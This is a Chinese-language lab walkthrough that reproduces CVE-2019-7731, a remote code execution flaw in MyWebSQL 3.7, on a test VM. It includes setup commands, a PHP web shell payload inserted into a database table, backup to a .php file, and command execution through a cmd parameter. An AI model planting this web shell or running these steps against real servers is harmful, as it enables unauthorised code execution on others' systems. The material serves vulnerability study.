










# 0x0 前言
### CVE-2019-7731 Description 
**MyWebSQL 3.7** has a remote code execution (RCE) vulnerability **after an attacker writes shell code into the database**, and executes the **Backup Database function** with a **.php filename** for the backup's archive file.

### MyWebSQL
MyWebSQL is the ultimate desktop replacement for **managing your MySQL databases** over the web.

> 1. 此CVE是利用已在SQL中寫入的shell code進行攻擊，因此可能要先建立在其他可以取得MySQL存取權限的漏洞的基礎上
> 2. 此CVE攻擊成功並非拿到root權限，而是web owner(www-data)的權限
> 3. MyWebSQL至今(2020/12/14)仍未對此有漏洞之版本(3.7)進行更新或修復

* ()內為測試時使用之環境
* `灰底字`為指令

# 0x1 前置需求
* 虛擬機軟體 (VMware Workstation 15.5.7)
* 任何具瀏覽器的OS當作攻擊機 (Kali Linux 2020.4)
* 受攻擊機 (Ubuntu 20.04)

# 0x2 受攻擊機環境建置

### PHP、Apache、MySQL及libsqlite3-dev(MyWebSQL依存套件)安裝
1. `sudo apt install php libapache2-mod-php php-common php-mbstring php-gd php-intl php-curl php-xml php-mysql php-pgsql php-mysql php-bcmath unzip wget mysql-server libsqlite3-dev`，安裝所需套件

### 建立MySQL Database與使用者
2. `sudo mysql -u root -p`，執行mysql  
<!--  -->

3. `USE mysql;`，選擇database **mysql**  
<!--  -->

4. `CREATE USER 'vulner'@'localhost' IDENTIFIED BY 'vul.,';`，建立使用者帳密 **vulner/vul.,** (似乎要加兩個符號才能符合密碼規定)  
<!--  -->

5. `GRANT ALL PRIVILEGES ON *.* TO 'vulner'@'localhost';`，賦予**vulner**此使用者存取(\*.\*: **所有database.所有table**)的權限  
<!--  -->

6. `FLUSH PRIVILEGES;`，寫入剛才的權限操作  
<!--  -->

7. `exit;`，離開mysql console

### MyWebSQL環境建置
8. `cd ~; mkdir tmp; cd tmp`，建立暫存MyWebSQL source code的目錄

9. `wget -c https://sourceforge.net/projects/mywebsql/files/stable/mywebsql-3.7.zip/download -O mywebsql-3.7.zip`，下載MyWebSQL zip檔

10. `sudo unzip mywebsql-3.7.zip -d /var/www/html`，解壓縮**mywebsql-3.7.zip**至/var/www/html

11. `sudo chown -R www-data:www-data /var/www/html/mywebsql/`，修改owner

12. `sudo chmod -R 775 /var/www/html/mywebsql/`，修改存取權限

13. 開啟瀏覽器，在網址列輸入`http://127.0.0.1/mywebsql/`，若出現MyWebSQL的登入頁面即成功  

### 將shell code寫入MySQL
14. 登入MyWebSQL，帳密**vulner/vul.,**  

15. **Table**處右鍵 > **Create Table**  

16. 填寫**Table Name(shell)/Field Name(shell string)/Data Type(text)**  

17. 剛剛創的Table **shell**處右鍵 > **Insert statement**  

18. 將**SQL Editor**中出現的**INSERT**語句的**VALUES**後面的`("")`改為`("<?php system($_GET[cmd]); ?>")`，並按下**Query**  

### 建立Backup Database
19. **Data > Backup Database**  

20. 填入Backup Database的檔名(一定要.php)並Export  

# 0x3 Exploit
1. 在攻擊機開啟瀏覽器，在網址列輸入`<受攻擊機ip>/mywebsql/backups/shell.php?cmd=<command>`，此處的command是`ifconfig/id`，可以看到command的結果會出現在**INSERT INTO \`code\` VALUES**之後  

> 如同前言所述，拿到的是MySQL owner(www-data)的權限

# 0x4 Snort/Suricata Rule
無相關資料

# 0x5 Reference
* https://github.com/eddietcc/CVEnotes/blob/master/MyWebSQL/RCE/readme.md
